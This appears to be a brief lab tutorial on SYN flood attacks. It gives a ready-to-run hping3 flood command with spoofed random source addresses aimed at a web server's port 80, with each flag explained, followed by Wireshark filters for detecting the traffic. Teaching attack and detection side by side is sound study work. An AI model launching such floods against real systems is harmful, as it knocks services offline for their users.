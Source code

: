 # Conducting & Detecting DDoS (SYN flood) Attacks
## Conducting DDoS Attacks

Load up kali linux:
Install hping3
	$ sudo apt-get install hping3

Direct the SYN flood attack
- $ hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 10.0.0.1
	- -c 15000: number of packets we're sending is 15,000
	- -d 120: size of the packets is 120 bytes
	- -S: SYN flag enabled
	- -w 64: TCP Window size is 64
	- -p 80: victim's HTTP webserver port
	- --flood: send packets as fast as possible
	- --rand-source: generates spoofed IP addresses & stops the victim's SYN-ACK reply packets from reaching us

## Detecting SYN Flood Attacks

Load up wireshark:
	
 - An attack will show a large amount of TCP traffic with little variance in time

Filter SYN packets without acknowledgement with:
	
 - tcp.flags.syn == 1 and tcp.flags.ack == 0

_Notice_: the attacking IP addresses all target the same port (80)

Filter: tcp.flags.syn == 1 and tcp.flags.ack == 1:
	
 - compare this normal traffic with that of the suspected attack traffic to determine volume of normal requests

Can view Wireshark's graph feature to look for abnormalcies 
